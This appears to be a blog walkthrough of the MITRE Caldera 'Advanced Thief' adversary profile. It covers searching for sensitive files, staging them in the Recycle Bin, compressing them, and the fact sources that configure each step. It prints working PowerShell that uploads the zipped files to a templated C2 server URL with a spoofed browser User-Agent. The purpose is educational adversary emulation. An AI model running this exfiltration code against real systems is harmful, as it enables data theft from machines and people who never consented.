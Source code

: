 ```yaml
---
title: Caldera Fact Sources by Theft
draft: false
authors:
  - admin
date: 2024-05-02
tags:
  - Caldera
  - Thief
  - Fact Sources 
  - Exfil
---
```


Were going to walk throught the Advanced Thief adversary and understand whats going on. We'll start first with Abilities, setup Fact Sources last and disect commands in the middle. 
This adversary is simple and has only a few abilities to configure setup.  

## Thief

This adversary searches for files, compress them and exfiltrate to the attackers server.  

## Abilities

### 1. Advanced File Search and Stager
- **Tactic**:                    Collection
- **Technique ID**:        [T1119](https://attack.mitre.org/techniques/T1119/)
- **Technique Name**: Automation Collection
- **Payload**: [file_search.ps1](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.ps1) [file_search.sh](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.sh)

The payload is really well written. Clean and easy to ready. Something you could use to learn PowerShell with. 

This script essentially searches the box for files of interest or a specific file. Then places them in a staging location. 

**Command**

```shell
.\file_search.ps1 -Extensions '#{windows.included.extensions}' -ExcludedExtensions '#{windows.excluded.extensions}'
 -Directories '#{windows.included.directories}' -ExcludedDirectories '#{windows.excluded.directories}'
 -AccessedCutoff #{file.last.accessed} -ModifiedCutoff #{file.last.modified}
 -SearchStrings '#{file.sensitive.content}' -StagingDirectory '#{windows.staging.location}'
 -SafeMode $#{safe.mode.enabled} -PseudoExtension #{pseudo.data.identifier}
```


- In the command its passing several fact sources to the payload. 
- the use of `-Extensions` sets file extensions and directories to include and exclude with `-Excluded Extenstions`.
- Its specifies what extensions and directories to exclude with `-Directories`, ` -ExcludedDirectories`. This is going to speed up the search on the box by narrowing the scope.
- The access cutoff will be in days. Its looking back 30 days for files a user has accessed or modified with `-AccessedCutoff`
- With `-SearchStings` the fact passes a list of key word to look for.
- It sets the staging directory with `-StagingDirectory`. The location where all the files will be dumped before compressing
- `-SafeMode` is an interesting switch paired with `-PseudoExtension`. In the payload you see `[bool] $SafeMode = $False,` and a fact source. This a Boolean with the default being False. Safemode is the switch to use  `-PseudoExtension`or not and represents the basename of the file.  So if set to True and you passed the file special.txt. That would be the only file return once the payload is efiltrated. Example being Report.pdf this would be `Report`.  If `-SafeMode` is set to True it will use `-PseudoExtension` and make sure the file matches this.


### 2. Compress Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1560.001](https://attack.mitre.org/techniques/T1560/001/)
- **Technique Name**: Archive Collected Data: Archive via Utility 

```shell
Compress-Archive -Path #{host.dir.staged} -DestinationPath #{host.dir.staged}.zip -Force;
sleep 1; ls #{host.dir.staged}.zip | foreach {$_.FullName} | select
```

- Compress-Archive takes the path of our the staging directory. That being the Recycle Bin. 
- Destination Path is where you're putting the files. Looks like its the same location. Its will create a .zip of the files.
- With `-Force` set it overrides any existing files with the same name
- In Caldera you can see the response of the command. So we see the `;` adding another command sleeping for 1 second. Followed by a ls -Piped-> into a foreach loop on the output of ls.  Unsure why this is needed.

### 3. Exfil Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1041](https://attack.mitre.org/techniques/T1041/)
- **Technique Name**: Exfiltration Over C2 Channel


Finally into the final stage of the adversary where the data is exfiltrated.  


```python
# Set variables
$ErrorActionPreference = 'Stop';
$fieldName = "#{host.dir.compress}";
$filePath = "#{host.dir.compress}";
$url = "#{server}/file/upload";

Add-Type -AssemblyName 'System.Net.Http';

$client = New-Object System.Net.Http.HttpClient;
$content = New-Object System.Net.Http.MultipartFormDataContent;
$fileStream = [System.IO.File]::OpenRead($filePath);
$fileName = [System.IO.Path]::GetFileName($filePath);
$fileContent = New-Object System.Net.Http.StreamContent($fileStream);
$content.Add($fileContent, $fieldName, $fileName);
$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-#{paw}');
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");

$result = $client.PostAsync($url, $content).Result;
$result.EnsureSuccessStatusCode();
```

This is what a http request looks like in powershell. They build the HTTP client set the file and adds a user agent. Lastly we package it up and ship it back.


- Right in the beginning we set variables and use the Fact Source details. 
- Next we call to .Net System.Net.Http library and load it. 
- Then the assembly of the client is performed and building of the request. Like setting the User-Agent and attaching the payload.


https://learn.microsoft.com/en-us/dotnet/api/system.net.http?view=net-8.0

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.4


## Fact Sources

Now that we've covered the Abilities lets focus on Fact Sources. They are a little confusing at first. Fact Sources are just configuration settings for your Adversaries abilities. Abilities can tap into templating to set template variable from facts. 

Facts are a collection of key/values that are used to pass into an Operation. As the Operation executes it populates the templated text in a command or ability with the Fact Sources value. Like a the shapes box when we were younger. Its possible to run an Adversary in an Operation without the correct fact sources.

Continuing on, below are the Fact Sources needed with a description of what role they play in the Abilities.

| Fact Source                  | Description                                                                  |
| ---------------------------- | ---------------------------------------------------------------------------- |
| windows.included.extensions  | File extensions that should not be ignored                                   |
| windows.excluded.extensions  | File extensions to ignore                                                    |
| windows.included.directories | Base Directory to crawl                                                      |
| windows.excluded.directories | What directories are out of scope                                            |
| file.last.accessed           | Time Frame -30 Days                                                          |
| file.last.modified           | Time Frame -30 Days                                                          |
| file.sensitive.content       | Its a list of possible keywords used to identify sensitive content           |
| windows.staging.location     | Location to stage the compression. Its set to Recycle bin... kind of cleaver |
| pseudo.data.identifier       | specific file name                                                           |

### File Compression

| Fact Source     | Description                                      |
| --------------- | ------------------------------------------------ |
| host.dir.staged | Location the files will be stored and compressed |

### Exfil

| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |

### Prebuilt Fact Sources

The Fact Source entries form above are included in the **Exfil Operation** collection of facts. 
We are missing a few of the facts that are required. 

#### Missing Fact 
| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.staged   | Loation where the files where staged         | 
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |


